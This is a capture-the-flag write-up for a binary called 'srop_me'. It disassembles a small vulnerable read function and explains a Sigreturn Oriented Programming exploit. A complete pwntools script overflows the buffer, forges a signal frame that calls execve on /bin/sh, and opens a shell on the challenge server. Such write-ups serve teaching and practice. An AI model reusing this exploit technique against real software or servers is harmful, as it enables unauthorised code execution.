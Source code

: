 # ASM

First of all, let's open the file in IDA disassembler
We see very tiny assembly code 
Function *vuln()*:

```asm
vuln proc near
mov     eax, 1
mov     edi, 1          ; fd
mov     rsi, offset msg ; buf
mov     edx, 0Fh        ; count
syscall                 ; LINUX - sys_write
sub     rsp, 20h
mov     eax, 0
mov     edi, 0          ; fd
mov     rsi, rsp        ; buf
mov     edx, 200h       ; count
syscall                 ; LINUX - sys_read
add     rsp, 20h
retn
vuln endp
```

File name is "srop_me", so it's obvious, that we need to use SROP (Sigreturn Oriented Programming).

So our payload contains:
- 32 bytes useless data
- address 0x40101b to read buffer again and make rax = 0xf
- address of syscall to execute syscall with rax = 0xf and control all registers
- and SigreturnFrame to make the register values what we need

Here is the exploit using pwntools:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./srop_me')

if exe.bits == 32:
    lindbg = "/root/linux_server"
else:
    lindbg = "/root/linux_server64"


# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'challs.n00bzunit3d.xyz'
port = int(args.PORT or 38894)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.EDB:
        return process(['edb', '--run', exe.path] + argv, *a, **kw)
    elif args.QIRA:
        return process(['qira', exe.path] + argv, *a, **kw)
    elif args.IDA:
        return process([lindbg], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
  

io = start()
io.recvline()

frame = SigreturnFrame()
frame.rdi = 0x40200F # binsh string
frame.rsi = 0x0
frame.rax = 0x3b # execve
frame.rdx = 0x0
frame.rbp = 0x402100
frame.rip = 0x401031 # syscall
frame.rsp = 0x402000

pl = b''
pl += b'A'*32
pl += p64(0x40101b) # read gadget
pl += p64(0x401031) # syscall
pl += bytes(frame)
io.send(pl.ljust(0x200))

io.send(b'A'*14 + b'\n')

io.interactive()
```

